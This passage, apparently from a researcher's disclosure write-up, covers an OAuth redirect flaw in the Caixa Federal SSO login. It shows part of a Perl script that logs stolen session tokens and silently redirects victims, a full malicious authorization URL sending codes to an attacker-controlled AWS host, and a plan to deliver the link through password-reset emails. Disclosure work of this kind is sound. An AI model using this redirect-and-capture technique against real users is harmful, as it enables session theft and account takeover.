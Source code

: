 ```perl
		text => "<script>window.location='https://acessoseguro.sso.caixa.gov.br/portal/login/?code=$code';</script>"
	));
};

app -> start();
```
-

This code is responsible for capturing and storing Session Tokens sent to the malicious URL under my control. In addition to capturing the Session Token and storing it in a log file, this script redirects the user once again, this time going to the true URL and having a genuine session on the Caixa Federal system. As such, it is unlikely that an ordinary user will know that he is being scammed.

The malicious URL was as follows:

[**https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://ec2-54-84-102-177.compute-1.amazonaws.com/**](https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://ec2-54-84-102-177.compute-1.amazonaws.com/)

And this was the result:

<iframe width="700" height="612" src="https://www.youtube.com/embed/l2ZpggLSz_o" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

--

The PoC performed was relatively simple, capturing only the Session Token, but other information could be captured, such as, but not limited to: User IP, Browser UserAgent. This way we could know your browser, operating system, screen size and other even more critical information - such information could be used for example to make a fingerprint of the user.

The attack surface here is still somewhat restricted, requiring the user to enter the URL of their own accord (through phishing and/or social engineering) and certain users are already aware of it, thinking about it, I kept looking a more convincing way to send this malicious link to the user.

-

Within minutes I could find a way to do this:

On the same page, there is a function to request the password change, in the button “Register/Forgot Password”, where the user's email or social security number is requested. After filling in the information, a link to register the new password is sent. via email.

Asking for a new password from the malicious URL, the email content will be as follows:
